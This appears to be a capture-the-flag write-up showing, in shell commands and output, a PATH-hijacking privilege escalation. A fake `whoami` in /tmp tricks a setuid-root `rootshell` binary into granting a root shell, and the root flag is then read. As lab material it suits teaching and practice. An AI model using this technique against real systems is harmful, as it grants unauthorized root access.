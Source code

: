 We can change the PATH variable so we can execute our own whoami executable.
First we should create a file called `whoami` in the `/tmp` folder with the following content `printf tom` and then make it executable.

```bash
$ cd /tmp
$ echo "printf "tom"" > whoami 
$ cat whoami
printf tom
$ chmod +x whoami
```
Next we should change the PATH variable so we can run whoami and it will look in `/tmp` first.

```bash
$ export PATH=/tmp:$PATH
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```
Next we should change the working directory to the home directory of tom.

```bash
$ cd /home/tom
$ pwd
/home/tom
$ ls -la
total 100
drwxr-xr-x 15 tom  tom   4096 Feb  8  2020 .
drwxr-xr-x  3 root root  4096 Feb  8  2020 ..
-rw-------  1 tom  tom    684 Feb  8  2020 .ICEauthority
-rw-r--r--  1 tom  tom    220 Feb  8  2020 .bash_logout
-rw-r--r--  1 tom  tom   3526 Feb  8  2020 .bashrc
drwx------ 10 tom  tom   4096 Feb  8  2020 .cache
drwx------ 10 tom  tom   4096 Feb  8  2020 .config
drwx------  3 tom  tom   4096 Feb  8  2020 .gnupg
drwx------  3 tom  tom   4096 Feb  8  2020 .local
-rw-r--r--  1 tom  tom    807 Feb  8  2020 .profile
drwx------  2 tom  tom   4096 Feb  8  2020 .ssh
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Desktop
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Documents
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Downloads
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Music
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Pictures
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Public
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Templates
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Videos
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c
```
Now we just have to run the `rootshell` binary to gain a shell as root.
```bash
$ ./rootshell
whoami
tom
id
uid=0(root) gid=33(www-data) groups=33(www-data)
cd /root
ls
flag.txt
cat flag.txt
|\---------------\
||                |
|| UQ Cyber Squad |       
||                |
|\~~~~~~~~~~~~~~~\
|
```